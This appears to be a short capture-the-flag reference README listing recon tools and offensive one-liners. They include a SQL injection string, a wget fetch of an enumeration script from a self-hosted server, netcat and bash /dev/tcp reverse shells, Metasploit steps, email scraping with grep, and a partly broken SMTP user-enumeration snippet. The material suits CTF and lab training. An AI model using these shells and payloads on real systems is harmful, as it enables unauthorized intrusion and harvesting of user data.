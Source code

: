 # CTF Reference

### Native tools
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)
- [Stegsolve](https://github.com/zardus/ctf-tools/tree/master/stegsolve)

### Online tools
- [Crypto Chef](https://gchq.github.io/CyberChef/)
 

### Sudo basic escalation
```
sudo -l
sudo -u theuser <app>
```

### Basic SQL injection
```
' OR name='test';--
```

### Quick Python HTTP server
Will serve any file in directory
```shell
python -m SimpleHTTPServer 8000
```
To fetch from the remote machine
```shell
wget http://<ip>:8000/LinEnum.sh
```

### nc reverse shell
Listener
```
nc -nlvp 444
```
Client
```
/bin/sh | nc <ip> 444
# or
bash -c "bash -i >& /dev/tcp/127.0.0.1/444 0>&1"
```
### nmap
```shell
nmap -sC -A -T4 <ip>
```

### Metasploit basic usage
```shell
msfconsole
search <name>
use <id>
show options
set rhosts <ip>
set targeturi /cgi-bin/hello.cgi
run
```

### Basic banner grabbing (Python)
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.198.73.23", 23))

print s.recv(1024)
```

### Recursive wget 
```shell
wget -r --level=1 -p http://<website> 
find . -name "*" -exec cat {} \; | grep "@email.com" # find strings in downloaded sites
```

### Basic SMTP enum (Python)

```python
import socket
f = open("userlist", "r")
users = f.readlines()

for user in users:
    s = socket.socket(socket.AFINTE)

    s.connect(("mail.baldrinc.com", 25))
    s.recv(1024)
    s.send("HELO")
    #...
```
